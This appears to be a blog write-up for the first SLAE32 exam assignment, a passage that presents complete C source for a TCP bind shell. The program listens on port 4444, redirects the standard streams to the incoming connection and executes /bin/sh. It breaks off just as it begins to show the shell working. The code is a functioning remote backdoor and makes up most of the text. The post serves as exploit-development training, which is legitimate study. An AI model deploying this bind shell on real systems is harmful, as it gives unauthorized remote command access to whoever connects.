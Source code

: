 ```yaml
---
title: SLAE32 - Assignment 1 - TCP Bind Shell
date: 2021-03-14
tags:
- SLAE32
categories:
- SLAE Exam Assignments
- SLAE 32-bit
keywords:
    - Assembly
    - Bind Shell
---
```


The first assigment for the SLAE32 certification asks to write a TCP Bind Shell shellcode that binds to a port and then executes a shell on the incoming connection. Requirement is that port number should be easily configurable.

## TCP Bind Shell in C
Let's first of all create a TCP bind shell in C that listens to port 4444. This is the code:
``` c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <unistd.h>

int main (){

	// Creating File Descriptor for the Socket	
	int socket_fd;
	socket_fd = socket(AF_INET, SOCK_STREAM, 0);

	// Binding the socket to server address
	struct sockaddr_in server_address; 
	server_address.sin_family = AF_INET;
	server_address.sin_port = htons(4444);
	server_address.sin_addr.s_addr = INADDR_ANY;

	bind(socket_fd, (struct sockaddr *)&server_address, sizeof(server_address)); 

	// Activate listening on the socked
	listen(socket_fd, 0); 

	// Accept new connections on the socket
	int connection_fd;
	connection_fd = accept(socket_fd, NULL, NULL);

	// Redirect STDIN(0), STDOUT(1) and STDERR(2) on Connection_FD
	dup2(connection_fd, 0); 
	dup2(connection_fd, 1);
	dup2(connection_fd, 2);

	// Invoking EXECVE
	execve("/bin/sh", NULL, NULL);

	// Return
	return 0;
}
```
Trying the shell, we see that it is working as intended: